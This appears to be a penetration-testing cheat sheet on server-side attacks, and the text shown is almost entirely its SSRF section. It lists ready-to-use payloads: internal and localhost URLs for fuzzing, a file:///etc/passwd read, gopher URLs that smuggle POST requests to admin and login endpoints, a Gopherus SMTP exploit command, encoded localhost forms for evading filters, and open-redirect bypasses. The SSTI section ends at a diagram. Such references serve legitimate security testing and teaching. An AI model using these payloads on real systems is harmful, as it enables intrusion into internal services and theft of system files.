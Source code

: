 # Server Side Attacks 

Server-side attacks target the application or service provided by a server, whereas a client-side attack takes place at the client's machine, not the server itself.
For instance, vulnerabilities like Cross-Site Scripting (XSS) target the web browser, i.e., the client. On the other hand, server-side attacks target the web server.

- Server-Side Request Forgery (SSRF)
- Server-Side Template Injection (SSTI)
- Server-Side Includes (SSI) Injection
- eXtensible Stylesheet Language Transformations (XSLT) Server-Side Injection

## Server Side Request Forgery

Server-side request forgery vulnerability can be identified in applications that use features that make some type of HTTP request or other request based on user input.

````
http://127.0.0.1
http://127.0.0.1:<FUZZ_PORT>
http://<IP_Internal_Network>
````

**Local File Inclusion (LFI)**
````
file:///etc/passwd
````
**Gopher Protocol**
````
gopher://[host]:[port]/[type][selector]

gopher://<domain>:80/_POST%20/admin.php%20HTTP%2F1.1%0D%0AHost:%20<domain>%0D%0AContent-Length:%2013%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Aadminpw%3Dadmi

gopher://backend:80/_POST%20/login%20HTTP/1.1%0D%0AHost%3A%20backend%0D%0AContent-Type%3A%20application/x-www-form-urlencoded%0D%0AContent-Length%3A%2041%0D%0A%0D%0Ausername%3Dwhite.rabbit%26password%3Ddontbelate%0D%0A
````
https://github.com/fuzzlove/GopherSSRF
https://github.com/tarunkant/Gopherus
````
$ python2.7 gopherus.py --exploit smtp
````

**Filter**

Other Representations of Localhost
````
http://localhost
http://127.0.0.1
http://127.127.127.127
http://127.0.1.3
http://127.0.0.0
http://0/
http://127.1
http://127.0.1
http://2130706433
http://0177.0.0.1
http://[::]
http://[0000::1]
http://[0:0:0:0:0:ffff:127.0.0.1]
http://[::ffff:127.0.0.1]
````

**Bypass using Redirects**

https://httpbin.org/
https://github.com/Horlad/r3dir
````
https://httpbin.org/redirect-to?url=http://localhost
https://307.r3dir.me/--to/?url=http://localhost
````

## Server Side Template Injection

![SSTI Diagram](diagram.webp)
